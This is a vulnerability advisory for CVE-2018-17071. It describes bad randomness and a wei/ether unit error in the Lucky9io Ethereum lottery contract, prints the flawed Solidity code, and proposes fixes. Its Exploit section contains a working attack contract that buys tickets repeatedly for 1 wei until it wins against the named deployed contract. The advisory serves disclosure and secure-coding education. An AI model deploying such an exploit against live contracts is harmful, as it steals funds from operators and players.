

# CVE-2018-17071

## Vendor
Lucky9.io

## Vulnerability Type
Bad Randomness, Usage of Invalid Unit

## Abstract
We found a vulnerability in smart contract of “Lucky9io” which is an Ethereum lottery game. The fallback function of a simple lottery smart contract implementation for “Lucky9io”, generates a random value with publicly readable variable `entry_number`. This variable is private, yet it is readable by `eth.getStorageAt` function. Also, attackers can purchase a ticket at a low price by directly call the fallback function with small `msg.value` because the developer set the currency unit incorrectly. Therefore, it allows attackers to always win and get rewards.

## Details
‘Lucky9io’ is a Ethereum lottery game. You can buy a lottery ticket with 0.009 ether by clicking buttons of the website and automatically entered the lottery.


          *Figure 1. Lucky9io Dapp Website*

  This lottery increases the variable `entry_number` when people buy tickets. When `entry_number` reaches the number which is divided by 9, 99, and 999, the person who bought the ticket wins.
If you click on the buy ticket on the website, user can see the lottery price 0.009 eth and the gas attached to it. The transaction sending function as shown in the following figure 2 is linked with the web wallet Metamask.


          *Figure 2. Metamask transaction when the user buy a ticket*


```   
pragma solidity ^0.4.24;

contract lucky9io {
	bool private gameOn = true;
 	address private owner = 0x5Bf066c70C2B5e02F1C6723E72e82478Fec41201;
 	uint private entry_number = 0;
	uint private value = 0;
	
	modifier onlyOwner() {
		require(msg.sender == owner, "Sender not authorized."); _;
	}

	function stopGame() public onlyOwner {
		gameOn = false;
		owner.transfer(address(this).balance);
	}

	function () public payable {

		if(gameOn == false) {
			msg.sender.transfer(msg.value);
			return;
		}

		if(msg.value * 1000 < 9) {
			msg.sender.transfer(msg.value);
			return;
		}

		entry_number = entry_number + 1;
		value = address(this).balance;
		if(entry_number % 999 == 0) {
			msg.sender.transfer(value * 8 / 10);
			owner.transfer(value * 11 / 100);
			return;
		}
		if(entry_number % 99 == 0) {
			msg.sender.transfer(0.09 ether);
			owner.transfer(0.03 ether); return;
		}
		if(entry_number % 9 == 0) {
			msg.sender.transfer(0.03 ether);
			owner.transfer(0.01 ether);
			return;
		}
	}
}
```

Users should not know the variable ‘entry_number‘ (Line 6), yet the attacker can leak the private variable with getStorageAt function. Moreover, default solidity unit is 'Wei' which is 0.000000000000000001 ETHER. The developer thought of the ticket price as 0.009 ether and wrote code like ‘if(msg.value * 1000 < 9)‘ (Line 25). ‘msg.value * 1000‘ is always larger than 9 wei, so the attacker can buy tickets even if he or she send only 1 wei.

## Exploit

The attacker can call the fallback function while sending 1 wei until winning.

```   
pragma solidity ^0.4.24;

contract attack {
    function attack(address target) public payable {
        for(uint i=0; i<100; i++) {
            target.call.value(1)(); // 1 wei
        }
        msg.sender.transfer(this.balance);
    }
}
```   


## Conclusion

On line 25, change ‘if (msg.value * 1000 <9)‘ to ‘if (msg.value * 1000 <9 ether)‘.
Also, the data types of ‘entry_number‘ should be mapping or other data types that is hard to be leaked by attackers.
Solidity developers should carefully audit their code whether they use bad random number.

## Reference
https://dappradar.com/app/796/lucky9-io

https://etherscan.io/address/0x94f5a9cecb397a8fb837edb809bc1cd6a66ffed2

## Discoverer
Team Code4Block
